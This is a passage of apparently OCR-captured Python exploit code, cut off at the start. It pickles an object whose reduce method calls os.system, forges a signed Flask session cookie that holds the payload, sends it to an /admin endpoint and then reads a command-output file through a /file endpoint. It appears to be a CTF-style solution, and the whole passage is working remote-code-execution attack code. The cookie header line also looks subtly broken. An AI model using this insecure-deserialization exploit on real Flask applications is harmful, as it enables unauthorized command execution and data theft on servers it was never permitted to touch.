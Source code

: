 ```
        return  (os.system,(cmd,))
exp = {"b":base64.b64encode(pickle.dumps(User()))}

print(exp)
fake_app=FakeApp()
session_interface = SecureCookieSessionInterface()
serialize = session_interface.get_signing_serializer(fake_app)
cookie = serialize.dumps({'u':exp})
print(cookie)

headers = {
    "Accept":"*/*",
    "Cookie":"session{0}".format(cookie)
}
req = requests.get(url+"/admin",headers=headers)

req = requests.get(url+"/file?file=/tmp/test1",headers=headers)
print(req.text)
```
